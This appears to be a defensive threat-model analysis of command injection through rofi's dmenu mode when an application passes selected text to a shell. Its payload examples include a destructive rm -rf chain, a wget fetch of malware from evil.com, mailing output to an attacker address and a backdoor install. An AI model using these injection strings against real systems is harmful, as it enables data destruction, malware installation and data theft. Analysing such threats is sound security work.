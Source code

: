 ## Deep Dive Analysis: Command Injection via Rofi Input (Dmenu Mode)

This document provides a comprehensive analysis of the "Command Injection via Rofi Input (Dmenu Mode)" threat, as identified in the threat model for an application utilizing the `rofi` tool.

**1. Threat Breakdown:**

This threat leverages the inherent behavior of `rofi` in `-dmenu` mode, where the application provides a list of options to the user, and `rofi` returns the selected option's *textual content*. The core vulnerability lies in the application's trust and subsequent unsafe processing of this returned text.

**1.1. Mechanism of Exploitation:**

* **Attacker Manipulation:** The attacker's goal is to inject malicious commands within the options presented to the user via `rofi`. This could happen through various means depending on how the application generates the `rofi` options:
    * **Compromised Data Source:** If the options are sourced from a database, configuration file, or external API that the attacker can influence, they can directly inject malicious payloads.
    * **User-Controlled Input (Indirect):**  Even if the direct options are seemingly safe, if user input is used to *construct* these options without proper sanitization, it can be exploited. For example, if a user can define a "name" for an action, and this name is later used in the `rofi` list, a malicious name could be injected.
    * **Vulnerable Application Logic:** Bugs or design flaws in the application's logic for generating the `rofi` list could inadvertently allow the inclusion of attacker-controlled text.

* **Rofi Presentation:** `rofi` faithfully displays the provided options. To the user, the malicious option might appear innocuous (e.g., "Secure Action").

* **User Selection:** The unsuspecting user selects the seemingly benign option.

* **Application Processing (Vulnerable Point):** The application receives the raw text of the selected option from `rofi`. The vulnerability arises when the application directly uses this text, or parts of it, in a context where it can be interpreted as a shell command. This often involves using functions like `subprocess.Popen(..., shell=True)`, `os.system()`, or similar constructs in various programming languages.

**1.2. Attack Payload Examples:**

Here are some examples of how malicious commands could be injected within a `rofi` option:

* **Basic Command Execution:** `Secure Action ; rm -rf /tmp/*`
* **Redirection:** `Download File > /dev/null ; wget http://evil.com/malware -O /tmp/malware`
* **Piping:** `Check Status | mail attacker@evil.com`
* **Chaining Commands:** `Update System && apt-get install backdoor`
* **Obfuscation (Base64):** `Execute Script $(echo 'c2hlbGxfY29tbWFuZAo=' | base64 -d)`

**2. Deeper Dive into Impact:**

The impact of this vulnerability is classified as **Critical** for good reason. Successful exploitation allows for **Arbitrary Command Execution (ACE)** on the server or system where the application is running. This grants the attacker the same level of privileges as the application process itself.

**Potential Consequences:**

* **Data Breach:** Access to sensitive data stored on the server or accessible through the server.
* **Data Manipulation/Deletion:** Modification or destruction of critical application data or system files.
* **System Compromise:** Complete control over the server, allowing for the installation of backdoors, malware, and further attacks.
* **Denial of Service (DoS):** Crashing the application or the entire server.
* **Lateral Movement:** Using the compromised server as a stepping stone to attack other systems within the network.
* **Reputational Damage:** Loss of trust from users and stakeholders due to security breaches.
* **Financial Loss:** Costs associated with incident response, data recovery, legal repercussions, and business disruption.
